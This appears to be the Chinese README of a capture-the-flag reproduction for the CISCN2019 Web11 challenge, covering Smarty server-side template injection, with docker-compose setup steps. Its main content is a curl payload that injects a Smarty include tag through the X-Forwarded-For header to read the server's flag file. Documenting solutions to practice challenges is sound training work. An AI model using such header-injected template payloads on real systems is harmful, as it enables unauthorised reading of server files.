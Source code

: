 # CISCN2019 华东南赛区 Web11

## 题目详情

- **CISCN2019 华东南赛区 Web11**

复现完才发现其实蛮简单- -

## 考点

-  Smarty SSTI

## 启动

    docker-compose up -d
    open http://127.0.0.1:80/

## Payload

```
curl -X GET \
  http://web57.buuoj.cn/xff/ \
  -H 'Postman-Token: b679a211-ca95-4c77-b6e7-0ea559c67824' \
  -H 'X-Forwarded-For: {include file='\''/flag'\''}' \
  -H 'cache-control: no-cache'
```

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（ i@zhaoj.in ）

